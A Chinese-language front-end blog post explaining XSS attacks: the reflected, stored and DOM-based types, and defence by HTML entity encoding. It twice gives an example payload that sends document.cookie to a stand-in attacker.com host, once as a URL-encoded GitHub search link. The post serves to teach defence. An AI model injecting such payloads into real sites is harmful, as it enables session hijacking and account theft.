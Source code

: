 ```yaml
---
title: XSS攻击
tags:
  - xss
  - web security
categories:
  - Web Security
date: 2017-09-20 16:49:53
---
```

作为一名前端开发，了解些常见的web安全问题是非常必要的，这里介绍下被提起最多的`XSS`

### XSS是什么

XSS攻击全称跨站脚本攻击 Cross Site Scripting，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS

### XSS攻击会造成哪些危害

XSS攻击最常见的就是获取用户的`cookie`，`session`等敏感信息，这些信息一般保存着用户登陆状态等信息，攻击者拿到这些就可以登陆被攻击者的账户，至于登陆后可以做的事。。就不展开了

除了对用户账号安全产生威胁之外，XSS攻击还会对网站本身造成危害，比如持续向服务器发送请求，`DDos`攻击等等

### XSS攻击的类型

#### 基于反射的攻击（非持久化）

基于反射的XSS攻击一般是服务器端根据用户的输入或者查询条件返回了带有恶意脚本的结果并在客户端执行

比如我们在`github`的搜索框中输入
`<script src='attacker.com?cookie=' + document.cookie></script>`

页面会返回：

{% asset_img githubXSSTest.jpg githubXSSTest %}

如果这句代码在页面中被当作`html`语句进行处理(github中对返回的语句进行了处理)，那么在页面渲染的时候，`'attacker.com?cookie=' + document.cookie`就会被执行，结果显而易见，我们的`cookie`被泄漏了

如果我们被别人引导，点击了下面的链接，恰好该网站没有做XSS相关的处理，我们的`cookie`就在被点击的瞬间被泄漏了

`https://github.com/search?utf8=%E2%9C%93&q=%3Cscript+src%3D%27attacker.com%3Fcookie%3D%27+%2B+document.cookie%3E%3C%2Fscript%3E&type=`

#### 基于存储的攻击（持久化）

基于存储的攻击也是项目标网站注入可执行样本，攻击者的恶意代码会被存储到网站服务器上，这种漏洞常见于存在于评论系统中。

当我们提交的评论中包含了恶意代码之后，被存储到数据库中，别人看帖时，我们的评论就会被读取展示出来，这时候如果网站存在XSS漏洞，我们提交的恶意代码就会被执行，结果也是cookie泄漏

#### 基于DOM的攻击（非持久化）

基于`DOM`的攻击和基于反射的攻击非常相像

我们在开发过程中，经常会通过链接将参数从一个页面带到另外一个页面，比如 `xxxxxx.qunar.com?depStation=北京`，在页面加载的时候，将`depStation`的值取出，填充到某`DOM`元素中

如果将北京替换成
`<script src='attacker.com?cookie=' + document.cookie></script>`

在存在XSS漏洞的网站中，这句代码会被执行，结果就是`cookie`泄漏

### 如何防御XSS漏洞

从上文列举的 XSS 恶意输入可以看到，这些输入中包含了一些特殊的 HTML 字符如 `<`、`>`。当传送到客户端浏览器显示时，浏览器会解释执行这些 `HTML` 或`JavaScript` 代码而不是直接显示这些字符串。`<` `>` `&` `“` 等字符在`HTML`语言中有特殊含义，对于用户输入的特殊字符，如何直接显示在网页中而不是被浏览器当作特殊字符进行解析?

`HTML`字符实体由 `&` 符号、实体名字或者 `#` 加上实体编号、分号三部分组成。以下为 `HTML` 中一些特殊字符的编码。有的字符实体只有实体编号，没有对应的实体名字，譬如单引号。

· `&` 转成 `&amp;`
· `“` 转成 `&quot;`
· `<` 转成 `&lt;`
· `>` 转成 `&gt;`
· `‘` 转成 `&#39;`
